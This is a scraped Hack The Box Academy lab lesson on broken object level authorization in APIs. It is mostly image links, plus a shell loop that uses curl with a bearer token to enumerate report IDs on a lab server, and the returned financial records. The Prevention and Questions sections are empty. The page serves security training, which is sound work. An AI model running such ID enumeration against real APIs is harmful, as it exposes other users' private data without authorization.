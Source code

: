<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/268/section/3061
// Platform Version: V1
// Module ID: 268
// Module Name: API Attacks
// Module Difficulty: Medium
// Section ID: 3061
// Section Title: Broken Object Level Authorization
// Page Title: Hack The Box - Academy
// Page Number: 03
-->

# Broken Object Level Authorization

**Module Name:** API Attacks **Page Number:** 03

#### 

#### API ATTACKS

# Broken Object Level Authorization

## Authorization Bypass Through User-Controlled Key

### Scenario

![https://academy.hackthebox.com/storage/modules/268/Authenitcation_Suppliers.gif](https://academy.hackthebox.com/storage/modules/268/Authenitcation_Suppliers.gif)

![https://academy.hackthebox.com/storage/modules/268/Authentication_Suppliers_2.gif](https://academy.hackthebox.com/storage/modules/268/Authentication_Suppliers_2.gif)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_5.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_5.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_6.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_6.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_7.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_7.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_8.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_8.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_9.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_9.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_10.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_10.png)

![https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_11.png](https://academy.hackthebox.com/storage/modules/268/API1_2023_Broken_Object_Level_Authorization_Image_11.png)

![https://academy.hackthebox.com/storage/modules/268/BOLA_Mass_Abuse.gif](https://academy.hackthebox.com/storage/modules/268/BOLA_Mass_Abuse.gif)

``` shell-session
lbek@htb[/htb]$ for ((i=1; i<= 20; i++)); do
curl -s -w "\n" -X 'GET' \
  'http://94.237.49.212:43104/api/v1/supplier-companies/yearly-reports/'$i'' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy93cy8yMDA1LzA1L2lkZW50aXR5L2NsYWltcy9uYW1laWRlbnRpZmllciI6Imh0YnBlbnRlc3RlcjFAcGVudGVzdGVyY29tcGFueS5jb20iLCJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dzLzIwMDgvMDYvaWRlbnRpdHkvY2xhaW1zL3JvbGUiOiJTdXBwbGllckNvbXBhbmllc19HZXRZZWFybHlSZXBvcnRCeUlEIiwiZXhwIjoxNzIwMTg1NzAwLCJpc3MiOiJodHRwOi8vYXBpLmlubGFuZWZyZWlnaHQuaHRiIiwiYXVkIjoiaHR0cDovL2FwaS5pbmxhbmVmcmVpZ2h0Lmh0YiJ9.D6E5gJ-HzeLZLSXeIC4v5iynZetx7f-bpWu8iE_pUODlpoWdYKniY9agU2qRYyf6tAGdTcyqLFKt1tOhpOsWlw' | jq
done

{
  "supplierCompanyYearlyReport": {
    "id": 1,
    "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",
    "year": 2020,
    "revenue": 794425112,
    "commentsFromCLevel": "Superb work! The Board is over the moon! All employees will enjoy a dream vacation!"
  }
}
{
  "supplierCompanyYearlyReport": {
    "id": 2,
    "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",
    "year": 2022,
    "revenue": 339322952,
    "commentsFromCLevel": "Excellent performance! The Board is exhilarated! Prepare for a special vacation adventure!"
  }
}
{
  "supplierCompanyYearlyReport": {
    "id": 3,
    "companyID": "058ac1e5-3807-47f3-b546-cc069366f8f9",
    "year": 2020,
    "revenue": 186208503,
    "commentsFromCLevel": "Phenomenal performance! The Board is deeply impressed! Everyone will be treated to a deluxe vacation!"
  }
}

<SNIP>
```

### Prevention

# 

# 

#### Questions

####
